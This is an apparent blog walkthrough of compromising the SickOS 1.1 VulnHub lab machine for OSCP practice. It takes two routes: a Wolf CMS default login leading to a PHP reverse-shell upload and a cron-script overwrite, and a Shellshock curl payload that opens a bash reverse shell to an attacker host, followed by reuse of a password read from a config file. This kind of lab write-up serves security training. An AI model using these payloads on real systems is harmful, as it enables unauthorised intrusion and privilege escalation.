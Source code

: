 ```yaml
---
title:  "SickOS 1.1 Walkthrough"
header: "SickOS 1.1 Walkthrough"
categories: 
  - walkthroughs
tags:
  - vulnhub
---
```


The SickOS series from vulnhub are a really good taste for what you can expect to find while purusing your OSCP. Below is a walkthrough of how to compromise the machine and obtain the flag. I've seperated it into two options as there are many different ways to compromise this particular machine. Post or reach out if you know of some other ways!

# Host Enumeration  
***

Of course we start off with an nmap scan to see what we're working with
`nmap –sV 192.168.32.133`  
![Nmap Scan](/assets/images/sickosnmap.JPG)

# Service Enumeration  
***
<Insert Table>

So at this point I took notes of the ports, likely OS version, and the services running. Since there’s a proxy configured and a closed 8080 port, I went ahead configured my browser through port 3128 with the assumption there’s a website possibly hosted on this server.

Callout
You can do this by opening Iceweasel > Properties > Preferences > Advanced > Network > Settings. Select Manual Proxy Configuration and place the IP address and appropriate port and select “OK” once done.

![Proxy Config](/assets/images/sickosproxyconfig.JPG)  
End Callout

Next I navigated to port 8080 with a connection failure and simply tried the standard HTTP port 80 and was presented with a page containing “BLEHHH!!!” on it.
![Blehhh](/assets/images/sickosblehh.JPG)  

Inspecting the source didn’t reveal anything useful but then I tried robots.txt which contained an interesting folder “/wolfcms”.
![SickOS Robots](/assets/images/sickosrobots.JPG)  

While manually researching wolfcms, I kicked off a general nikto scan and a dirb scan of the wolfcms directory.

Nikto Usage: `nikto -h 192.168.32.133 -useproxy http://192.168.32.133:3128`  
Dirb Usage: `dirb http://192.168.32.133/wolfcms -p 192.168.32.133:3128`  

I noted multiple publically released vulnerabilities for Wolf CMS, one in particular was an [Arbitrary File Upload /Execution](https://www.exploit-db.com/exploits/38000/) that seemed to foot the bill if I were able to get logged in. A quick google search revealed the standard login page would be `/admin/` or `/?admin/` depending on the mod_rewrite status. In this case, the correct path was `/wolfcms/?admin/`. Navigating to this URL presented a Wolf CMS login screen

![SickOS Wolf CMS Login](/assets/images/sickoswolflogin.JPG)  

At this time I decided to review what my scans came back with as I had a pretty good feel for where this was going from a Wolf CMS standpoint.

### Dirb  
Dirb revealed several directories but most notably the `/public/` directory which was also mentioned in the vulnerability page mentioned above.

![SickOS Dirb](/assets/images/sickosdirb.JPG)  

### Nikto  

Nikto had even more interesting information such as it possibly being vulnerable to shellshock.
![SickOS Nikto](/assets/images/sickosnikto.JPG)  

This is where the options occur, Option 1 goes after the CMS and Option 2 goes after shellshock. Shellshock is certainly the popular way in but I recommend doing both just for the experience. Just as an FYI, the privilege escalation techniques are different for each but can be done in either scenario.

# Compromise Option 1 - CMS Way  
***
### Breach  
I searched for default username/password combinations but it appears to be generated at install so there wasn’t much luck on that front. So I navigated back to the login screen `/wolfcms/?admin/` to try some basic username/password combos and one of the first tries was a success with admin/admin.

![SickOS Wolf Main Page](/assets/images/sickoswolfmain.JPG)  

Upon entry, I snooped around a few places just checking out versioning and to see if anything caught my eye. Naturally the files section stuck out like a sore thumb, particularly since it shows read/write permissions and the ability to upload files. Essentially, this is what the exploit noted above was describing; find a way to upload a shell and then navigate to it. As with many others, [pentestmonkey.net’s](http://pentestmonkey.net/) reverse PHP shell comes to the rescue again. I plugged in my attacking machines IP and uploaded it

![SickOS Wolf Upload](/assets/images/sickoswolfupload.JPG)  

Since it appears that it’s in the public directory (that I discovered earlier with Dirb), all that is needed is to set up a listener and navigate to the uploaded malicious php page

Callout
Listener: `nc –nlvp 4444`  
End Callout

I was then presented with a shell to my attacking machine as the www-data user

![SickOS Shell 1](/assets/images/sickosshell1.JPG)  

### Privilege Escalation  
 
I noticed an interesting cron entry that ran `/var/www/connect.py` in which the www-data user had write access to. So I replaced the contents of connect.py with a python shell obtained from [Trustedsec](https://www.trustedsec.com/) and set up a listener. After a few seconds I was presented with a shell as the root user which was able to obtain the flag.

![SickOS root 1](/assets/images/sickosroot1.JPG)  

# Compromise Option 2 - Shellshock Way  
***

### Breach  
From the output of the Nikto scan, it appears that this machine is vulnerable to shellshock. I don’t want to belabor shellshock as it’s very widely publicized and documented well. However, you should be familiar with it as it will likely come up in future endeavors ([link 1](https://fedoramagazine.org/shellshock-how-does-it-actually-work/), [link 2](https://www.symantec.com/connect/blogs/shellshock-all-you-need-know-about-bash-bug-vulnerability), [link 3](https://blog.cloudflare.com/inside-shellshock/))

There are many ways to do this, but in my haste I chose to use curl (this would be a great exercise to go through with Burp as well). I set up a listener, and used the below curl command to send to the attacking machine.
`curl -x http://<TARGET IP>:3128 -H "User-Agent: () { ignored;};/bin/bash -i >& /dev/tcp/<ATTACKING IP>/1234 0>&1" http://<TARGET IP>/cgi-bin/status`  

Once the command was sent, I was able to receive a reverse shell as the www-data user.

![SickOS Shell 2](/assets/images/sickosshell2.JPG)  

### Privilege Escalation  

Once on the machine, I began the information collection phase and came upon an interesting file `/var/www/wolfcms/config.php`. You should always check out the config files, people hardcode all kinds of juicy information in them.

![SickOS Database Config](/assets/images/sickosdbconfig.JPG)  

As it shows above, the SQL root user has the password of “john@123”. Naturally once you’ve obtained any type of credential you should see if the user can fall victim to password reuse. A quick `cat /etc/passwd` command shows a non-standard user “sickos”. I attempted to SSH as that user and with the credential found in the config file and was able to successfully log in.  

Upon logging, I checked to see if the user had sudo privileges by using `sudo –l` and as you will see below, the user does have the necessary privileges.  

![SickOS Sudo Options](/assets/images/sickossudoop.JPG)  

All that is left to do is `sudo su`

![SickOS Sudo](/assets/images/sickossudo.JPG)  

Once as the root user you can move to the /root directory and display the flag

![SickOS root 2](/assets/images/sickosroot2.JPG)  

# Conclusion  
***

I believe there are some additional easter eggs to find here but had to move on to other things. I thought it was a good representation of some of the machines that you'll experience in the OSCP labs. I would consider this machine on the easy side but it teaches you good lessons and encourages you to follow your hunches and solidify your enumeration process.
